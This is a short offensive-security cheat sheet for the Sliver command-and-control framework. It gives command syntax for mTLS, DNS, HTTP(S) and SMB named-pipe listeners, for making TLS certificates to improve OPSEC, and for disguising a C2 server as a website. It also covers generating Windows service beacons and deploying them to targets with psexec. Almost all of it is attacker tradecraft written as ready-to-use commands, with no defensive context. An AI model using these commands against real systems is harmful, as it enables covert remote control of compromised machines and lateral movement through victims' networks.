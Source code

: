 # 03 - Shell Handler

Search Tag(s): #sliver #command-and-control

## 3.1 - TCP

```
sliver > mtls -L <IP> -l <PORT>
```

## 3.2 - DNS

```
sliver > dns -d <domain>
```

## 3.3 - HTTP(S)

### 3.3.1 - Use custom TLS key and certificate (this is optional but recommended for OPSEC)

Encrypted TLS key and certification.

```
$ openssl req -x509 -newkey rsa:4096 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -sha256 -days 365
```

Non-encrypted TLS key and certification.

```
$ openssl req -new -x509 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -days 365 -nodes

sliver > http [-d <domain.com>] -L <IP> -l <PORT>

sliver > https [-d <domain.com>] -L <IP> -l <PORT> -c /path/to/certificate.crt -k /path/to/private.key
```

### 3.3.2 - Disguise the C2 as a website

```
sliver > websites add-content -w -p /index.html -c /home/user/nginx_error.html

sliver > http -w error [-d <domain.com>] -L <IP> -l <PORT>

sliver > websites rm-content -w error -p /index.html
```

## 3.4 - SMB

```
sliver > pivots named-pipe -b <pipe_name>

sliver > profiles new [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -l -a x64 -o windows -f service <profile_name>

sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -p <profile_name> <target_IP>
```

You can use a custom exe

```
sliver > generate [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -a x64 -o windows -f service -s /path/to/folder

sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -c /path/to/shellsvc.exe -p <profile_name> <target_IP>
```